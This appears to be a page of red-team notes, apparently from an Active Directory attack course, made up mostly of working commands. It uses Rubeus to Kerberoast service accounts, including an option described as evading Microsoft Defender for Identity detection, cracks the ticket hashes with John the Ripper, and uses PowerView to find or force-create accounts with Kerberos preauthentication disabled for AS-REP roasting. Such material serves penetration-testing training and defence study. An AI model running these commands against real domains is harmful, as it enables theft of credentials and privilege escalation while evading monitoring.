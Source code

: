 * Use Rubeus to list Kerberoast stats -

```
Rubeus.exe kerberoast /stats
```

* Use Rubeus to request a TGS -

```
Rubeus.exe kerberoast /user:svcadmin /simple
```

* To avoid detections based on Encryption Downgrade for Kerberos EType (used by likes of MDI - 0x17 stands for rc4-hmac), look for Kerberoastable accounts that only support RC4\_HMAC -

```
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec
```

* Kerberoast all possible accounts -

```
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```

* Crack ticket using John the Ripper -

```
john.exe --wordlist=C:\AD\Tools\kerberoast\10kworst-pass.txt C:\AD\Tools\hashes.txt
```

### Targeted Kerberosting - AS-REPs

* If a user's UserAccountControl settings have "Do not require Kerberos preauthentication" enabled i.e. Kerberos preauth is disabled, it is possible to grab user's crackable AS-REP and brute-force it offline.
* With sufficient rights (GenericWrite or GenericAll), Kerberos preauth can be forced disabled as well.

Enumerating accounts with Kerberos Preauth disabled -

* Using PowerView -

```
Get-DomainUser -PreauthNotRequired -Verbose
```

* Using ActiveDirectory module -

```
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```

**OR :- Force disable Kerberos Preauth** -

* Let's enumerate the permissions for RDPUsers on ACLs using PowerView -

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose
Get-DomainUser -PreauthNotRequired -Verbose
```
